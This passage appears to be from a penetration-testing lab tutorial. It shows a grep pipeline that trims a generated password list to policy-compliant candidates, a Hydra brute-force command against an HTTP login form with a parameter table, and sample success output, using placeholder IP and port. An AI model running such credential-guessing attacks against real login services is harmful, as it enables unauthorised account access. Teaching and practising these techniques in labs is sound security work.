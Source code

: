 ### **Filtering with `grep`**  
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
- **Reduces** ~46,000 passwords to ~7,900 **policy-compliant** passwords.  

## **5. Using Hydra for Brute-Force Attacks**  

### **Executing Hydra Attack**  
```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
### **Command Breakdown**  
| Parameter | Description |
|-----------|-------------|
| `-L usernames.txt` | Username list (from Username Anarchy) |
| `-P jane-filtered.txt` | Password list (from CUPP) |
| `IP` | Target system's IP address |
| `-s PORT` | Target service's port |
| `-f` | Stops after the first successful attempt |
| `http-post-form` | Specifies the login form for brute-force |

### **Hydra Output (Success)**  
```bash
[PORT][http-post-form] host: IP   login: ...   password: ...
1 valid password found
```





